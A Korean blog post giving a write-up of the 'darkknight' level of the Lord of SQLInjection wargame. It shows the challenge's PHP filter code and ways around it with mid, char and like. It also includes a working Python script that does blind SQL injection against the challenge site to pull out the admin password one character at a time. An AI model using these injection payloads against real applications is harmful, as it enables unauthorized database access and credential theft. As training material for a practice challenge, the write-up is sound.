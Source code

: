 ```yaml
---
layout: post
title: ! "[LOS] darkknight"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - darknight
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/darkknight.png)

`query : select id from prob_darkknight where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

darknight 문제는 substr, ascii가 필터링 된다.
기존 코드를 좀 수정해서

1. substr -> mid
2. ascii -> char

이렇게 바꿔주었다.

admin을 char함수로 표현하려면 `char(97,100,109,105,110)` 이 된다.

1. left : 문자의 왼쪽을 기준으로 일정 갯수를 가져온다.
2. mid : 문자의 지정한 시작 위치를 기준으로 일정 갯수를 가져온다.
3. right : 문자의 오른쪽을 기준으로 일정 갯수를 가져온다.

처음에 코드가 잘 안돌아갔는데 기존 코드는 string.ascii_letters를 이용해서 `for a in alpha` 이런식으로 돌게 했는데
이번 코드는 48부터 128까지 범위를 주고 `char(str(a))` 로 바꿔주었다.
출력을 할 때도 파이썬의 chr함수를 사용해 `chr(a)` 이렇게 출력해주었다.

### 코드
```php
from requests import get
import string
from time import sleep

url="https://los.eagle-jump.org/darkknight_~~~.php"
cookies = dict(PHPSESSID="세션 아이디")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1 || length(pw) like "+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1 || id like char(97,100,109,105,110) %26%26 mid(pw,"+str(i)+",1) like char("+str(a)+")"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![]({{ site.baseurl }}/assets/posts/los/darkknight_result.png)

결과대로 `1C62BA6F` 를 `?pw=1C62BA6F` 를 입력했는데 안돼서 뭐지..? 했는데
소문자로 바꿔서 입력하니 풀렸다.

![]({{ site.baseurl }}/assets/posts/los/darkknight_clear.png)
